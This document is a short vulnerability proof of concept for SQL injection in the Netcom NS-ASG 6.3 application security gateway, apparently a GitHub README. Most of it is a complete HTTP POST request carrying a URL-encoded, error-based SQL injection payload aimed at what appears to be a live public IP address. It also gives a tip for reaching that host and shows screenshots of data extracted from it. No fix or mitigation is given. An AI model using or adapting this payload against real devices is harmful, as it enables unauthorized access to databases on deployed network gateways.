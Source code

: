 # SQL injection POC

There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.
[official website](https://www.netentsec.com/)
version:NS-ASG 6.3
Vulnerability points：/protocol/firewall/uploadfirewall.php analyse as below: As shown below, the $FireWallId database value is accepted by messagecontent and then substituted into the database statement.

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/a9468bf8-1568-4afa-a94e-57d514310a50)

[https://106.37.206.12/]

ps: use older tls version or just access through mobile browser.

There is no validation during the execution of SQL injection.

Poc：
```
POST /protocol/index.php HTTP/1.1
Content-Length: 377
Host: 106.37.206.12
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: application/x-www-form-urlencoded
Referer: https://106.37.206.12/protocol/index.php
Connection: close

jsoncontent=%7B%22protocolType%22%3A%22uploadfirewall%22%2C%22messagecontent%22%3A%5B%221%20AND%20%28SELECT%205347%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a716b71%2C%28MID%28%28IFNULL%28CAST%28DATABASE%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C1%2C54%29%29%2C0x71707a6b71%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29%22%5D%7D
```

Send request with the payload above.

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/97490bc6-c1a7-4f28-a6fe-102643b3c1a3)


![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/ee5f5fac-4523-4038-aa91-058c1f88c6ac)

